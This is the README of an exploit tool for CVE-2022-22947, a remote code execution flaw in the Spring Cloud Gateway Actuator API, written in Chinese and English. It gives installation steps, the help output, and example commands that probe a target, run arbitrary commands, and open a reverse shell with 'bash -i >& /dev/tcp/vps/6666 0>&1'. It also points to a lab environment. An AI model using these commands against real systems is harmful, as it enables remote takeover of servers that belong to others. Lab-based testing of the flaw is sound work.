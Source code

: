 # Spring Cloud Gateway Actuator API SpEL表达式注入命令执行（CVE-2022-22947）

## 1.installation

```shell
pip3 install -r requirements.txt
```

## 2.Usage

```shell
$ python3 spring-cloud-gateway-rce.py -h

   ___             __         ____    ___   ____   ____          ____   ____    ___   _  _    _____
  / __\ /\   /\   /__\       |___ \  / _ \ |___ \ |___ \        |___ \ |___ \  / _ \ | || |  |___  |
 / /    \ \ / /  /_\   _____   __) || | | |  __) |  __) | _____   __) |  __) || (_) || || |_    / /
/ /___   \ V /  //__  |_____| / __/ | |_| | / __/  / __/ |_____| / __/  / __/  \__, ||__   _|  / /
\____/    \_/   \__/         |_____| \___/ |_____||_____|       |_____||_____|   /_/    |_|   /_/


                                        CVE-2022-22947 Spring Cloud Gateway RCE
                                                                  By:K3rwin
usage: spring-cloud-gateway-rce.py [-h] [-u URL] [-c CMD] [-s SYSTEM]

Spring Cloud Gateway RCE 帮助指南

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定url
  -c CMD, --cmd CMD     指定执行的命令,默认执行whoami
  -s SYSTEM, --system SYSTEM
                        指定目标主机操作系统,默认linux,参数为win/linux

```

## 3.example

### ① -u 探测漏洞

```shell
python3 spring-cloud-gateway-rce.py -u "http://192.168.50.111:8080/"
```

![image-20220313174120379](README.assets/image-20220313174120379.png)

### ② -c 指定执行命令

```shell
python3 spring-cloud-gateway-rce.py -u "http://192.168.50.111:8080/" -c "ip add"
```

![image-20220313174205428](README.assets/image-20220313174205428.png)

### ③ 反弹shell

```shell
python3 spring-cloud-gateway-rce.py -u "http://192.168.50.111:8080/" -c "bash -i >& /dev/tcp/vps/6666 0>&1"
```

![image-20220313175050373](README.assets/image-20220313175050373.png)

## docker靶场

[vulfocus](http://vulfocus.io/)

![image-20220313175230109](README.assets/image-20220313175230109.png)